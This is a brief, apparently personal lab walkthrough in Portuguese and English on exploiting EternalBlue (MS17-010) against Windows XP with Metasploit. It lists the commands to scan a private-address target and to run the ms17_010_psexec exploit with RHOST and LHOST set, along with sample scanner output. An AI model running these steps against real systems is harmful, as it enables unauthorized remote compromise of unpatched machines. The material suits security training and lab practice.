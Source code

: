 ```yaml
---
title: Exploitation - Eternal Blue ( WinXP )
category: post
---
```


**EternalBlue WindowsXP**



#### Enter msfconsole and search vuln

```ruby
msfconsole
search eternalblue
```
OR

```ruby
search ms17-010
```

---

#### Primeiramente Verificamos se a maquina de destino eh um Windows XP Vuln

```ruby
use auxiliary/scanner/smb/smb_ms17_010
set RHOST 10.l0.1.4
exploit
```

Se tudo der certo, obtemos uma resposta parecida com o seguinte:

```text
[+] 10.l0.1.4:445      - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.l0.1.4:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---


#### Agora Vamos Explorar a maquina que identificamos que esta vulneravel

```ruby
back

use exploit/windows/smb/ms17_010_psexec

set RHOST 10.l0.1.4

set LHOST 10.l0.1.2

run
```